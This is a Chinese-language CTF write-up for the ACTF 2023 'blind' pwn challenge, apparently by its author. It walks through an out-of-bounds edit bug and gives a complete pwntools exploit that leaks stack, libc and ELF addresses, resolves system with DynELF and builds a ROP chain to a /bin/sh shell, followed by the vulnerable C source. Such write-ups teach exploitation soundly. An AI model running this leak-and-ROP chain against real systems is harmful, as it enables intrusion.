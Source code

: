 # ACTF2023 blind WP

## 解题思路

这道题提供了字符编辑功能，玩两下就可以发现存在越界编辑

改改周围看下会发生什么——

```
[A]aaaaaa
> 8DW
aaaaaa 
> AS
Aaaaaaa[]
```

当右移8再+1后，我们发现输出位置改变了，说明改到了字符串指针，那么`8D8W`就可以输出这个指针本身的值，发现是`0x7fff`开头的栈上地址。那么只要修改这个指针就可以dump stack。

然后搞清楚程序修改的机制：首先显而易见的我们可以知道有两个指针——一个是每次输出字符串name的地址，一个是当前修改的位置。修改的位置是独立指针，还是基于名字的偏移？我们发现在`8DW`后需要`AS`才能恢复原状，也就是说在修改指针地址后，当前修改的位置也偏移了。这就说明输出的是指针，而`[]`是一个下标。于是我们大概可以还原出这样的代码：

```c
switch(toupper(ch)) {
    case 'W': p[cursor] += times; break;
    case 'A': cursor -= times; break;
    case 'S': p[cursor] -= times; break;
    case 'D': cursor += times; break;
    case ' ': p[cursor] ^= 0x20; break;
    case '\n': break;
    default : printf("Invalid: %c\n", ch);   break;
}
```

还有一个问题是，修改指针后是否立即生效？试一下`8DWS`发现输出还是Aaaaaaa，说明修改偏移是即时的，而修改指针会在下一次生效。也就是说修改时传入的是指针副本。于是又可以还原出一些逻辑。

```c
int main() {
	char namebuf[0x8];
    char *ptr = namebuf;
...
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr)); // 传入了指针的副本，当次修改不影响指向
    printf("Hello, %s!\n", ptr);
    return 0;
}
```

这样就可以任意修改和泄露了。栈上有libc、elf以及栈的地址，泄露后把偏移改到`elf&0xfffffffff000`的位置leak，然后ROPGadget找到`pop rdi; ret`的地址，用DynELF解system，把名字改成`/bin/sh`，ret2csu即可。（作为一个良心出题人，给大家用了2.31。如果是2.35就要去dump libc了;）

exp：

```python
#! /usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : std.py
@Time    : 2023/10/6 Mon 19:02:36
@Author  : Wh1sper
@Desc    : exp for ACTF 2023 blind
'''

from pwn import *

context.update(arch='amd64', os='linux', log_level='debug', timeout=None)

io = remote('120.46.65.156', 32104)

base, offset = 0, 0
def Off(pos): # 将[]修改到指定偏移
    global offset
    cnt = pos - offset
    offset = pos
    if cnt > 0:
        return str(cnt).encode() + b'D'
    else:
        return str(-cnt).encode() + b'A'

def setval(_offset, orig, to): # 修改base[_offset]的值为to，需要知道original
    payload = b''
    for (i, (b, a)) in enumerate(zip(orig, to)):
        change = a - b
        if change != 0:
            payload += Off(_offset + i)
        if change > 0:
            payload += str(change).encode() + b'W'
        elif change < 0:
            payload += str(-change).encode() + b'S'
    return payload

def Base(addr): # 将base指针修改到指定位置
    global base
    payload = setval(stack_addr - base, p64(base), p64(addr))
    base = addr
    return payload

def leak(addr): # base到指定位置然后输出
    payload = Base(addr) + Off(-1)
    io.sendlineafter(b"> ", payload)
    ret = io.recvuntil(b'\n> ', drop=True)
    io.unrecv(b'> ')
    return ret

def dump_elf(baseaddr):
    with open('dump', 'wb') as f:
        for i in range(0x1000 // 8):
            print(hex(i))
            f.write(leak(baseaddr + i * 8))
    print("dump done.")
    exit(0)

payload = setval(0, b'Aaaaaaa', b'/bin/sh')
io.sendlineafter(b"\n> ", payload)

payload = Off(8) + b'8W'
io.sendlineafter(b"> ", payload)
stack_addr = u64(io.recvuntil(b"\n", drop=True))
log.success(f'Leak stack: {stack_addr:#014x}')
base = stack_addr

# Step 1: View stack.
# for i in range(20):
#     print(f"{i:#x}: {u64(leak(stack_addr + i * 8)):#014x}")
# exit(0)

libc_addr = u64(leak(stack_addr + 0x10))
log.success(f'Leak libc: {libc_addr:#014x}')
elf_addr = u64(leak(stack_addr + 0x28))
log.success(f'Leak elf: {elf_addr:#014x}')

# Step 2: Dump elf
# dump_elf(elf_addr & 0xfffffffff000)

d = DynELF(leak, libc_addr, libcdb=False)
system_addr = d.lookup('system', 'libc')
log.success(f'Leak system: {system_addr:#014x}')

val_0x18 = u64(leak(stack_addr + 0x18))
val_0x20 = u64(leak(stack_addr + 0x20))
poprdi_ret = 0x5db + (elf_addr & 0xfffffffff000) # ROPgadget --binary dump --rawArch=x86 --rawMode=64 | grep "pop rdi ; ret"
io.sendlineafter(b"> ", Base(stack_addr))
io.sendlineafter(b"> ", setval(0x10, p64(libc_addr), p64(poprdi_ret))) # poprdi, ret
io.sendlineafter(b"> ", setval(0x18, p64(val_0x18), p64(stack_addr - 8))) # binsh_addr
io.sendlineafter(b"> ", setval(0x20, p64(val_0x20), p64(poprdi_ret + 1))) # ret
io.sendlineafter(b"> ", setval(0x28, p64(elf_addr), p64(system_addr))) # system
io.sendlineafter(b"> ", b'')

context.log_level = 'info'
io.interactive()

```

## 解题情况

大家的解法和官方解相差无几。一些队伍leak libc地址后查到了版本是`Debian GLIBC 2.31-13+deb11u7`，可以不用dump直接打ROP。

星盟的师傅非常牛逼，在不dump程序的情况下爆破到了ROP gadget。具体做法是：

1. 由于8A（name往低8字节）存放了返回地址，所以把name修改为栈上泄露的elf地址，通过name-0x8位置爆破前面泄露出来的elf函数附近的ret。
2. 通过布置栈（将返回地址放到name[0x30]），爆破csu的pop6_gadget。

这样就可以不用dump直接打了（需要用DynELF解出system地址），666

## 题目源码

不同gcc版本编译偏移可能会有变化，题目用的镜像是`debian 11(bullseye)`

```c
// gcc src.c -o blind
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>

ssize_t cursor = 0;
int process(char *p) {
    char *ops = NULL;
    int has_d = 0;
    size_t bufsize;
    ssize_t i = 0, len, rep;
    if ((len = getline(&ops, &bufsize, stdin)) == -1) {
        puts("Error.");
        exit(EXIT_FAILURE);
    } else if (len == 1) {
        free(ops);
        return 0;
    }
    while (i < len) {
        char ch = ops[i++];
        ssize_t times;
        if (isdigit(ch)) {
            rep = rep * 10 + (ch - '0');
            has_d = 1;
            continue;
        }
        times = has_d ? rep : 1;
        switch(toupper(ch)) {
            case 'W': p[cursor] += times; break;
            case 'A': cursor -= times; break;
            case 'S': p[cursor] -= times; break;
            case 'D': cursor += times; break;
            case ' ': p[cursor] ^= 0x20; break;
            case '\n': break;
            default : printf("Invalid: %c\n", ch);   break;
        }
        rep = 0;    has_d = 0;
    }
    free(ops);
    return 1;
}
void print(char *p) {
    int i;
    for (i = 0; i < 0x8; ++i) {
        if (i == cursor)
            printf("[%c]", p[i]);
        else
            printf("%c", p[i]);
    }
}
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(namebuf, 'a', sizeof(namebuf));
    namebuf[0] ^= 0x20;
    namebuf[sizeof(namebuf) - 1] = 0;
    puts("Welcome to ACTF, type your name here.");
    puts("Use A/D to move, W/S to change letter, <Space> to change Capital. You can add prefix n to repeat W/A/S/D command(3A2W = AAAWW), just like vi. When you finish it, send a single <Enter> to submit.");
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr));
    printf("Hello, %s!\n", ptr);
    return 0;
}

```

